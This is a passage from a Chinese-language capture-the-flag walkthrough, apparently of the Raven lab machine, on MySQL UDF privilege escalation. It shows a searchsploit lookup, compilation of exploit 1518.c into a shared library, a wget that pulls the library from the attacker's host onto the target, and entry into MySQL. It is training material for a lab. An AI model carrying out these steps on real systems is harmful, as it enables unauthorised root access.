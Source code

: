 secure_file_priv 是空目录可以进行任何地方的导入 

4、searchsploit搜索漏洞

```bash
└─# searchsploit mysql udf
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
MySQL 4.0.17 (Linux) - User-Defined Function (UDF) Dynamic Library (1)                                                      | linux/local/1181.c
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)                                                     | linux/local/1518.c
MySQL 4.x/5.0 (Windows) - User-Defined Function Command Execution                                                           | windows/remote/3274.txt
MySQL 4/5/6 - UDF for Command Execution                                                                                     | linux/local/7856.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                              
┌──(root💀kali)-[~]
└─# locate linux/local/1518.c                    
/usr/share/exploitdb/exploits/linux/local/1518.c
                                                                                                                                                              
┌──(root💀kali)-[~]
└─# cp /usr/share/exploitdb/exploits/linux/local/1518.c 1518.c  
```

5、编译成so文件

```bash
gcc -g -c 1518.c
gcc -g -shared -o lyqdjx.so 1518.o -lc
```

6、靶机下载kali里的lyqdjx.so文件

```bash
www-data@Raven:/var/www/html/wordpress$ cd /tmp
cd /tmp
www-data@Raven:/tmp$ wget http://192.168.0.103:7777/lyqdjx.so
```

7、靶机进入mysql数据库

```sql
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+
4 rows in set (0.00 sec)

mysql> use mysql;
use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```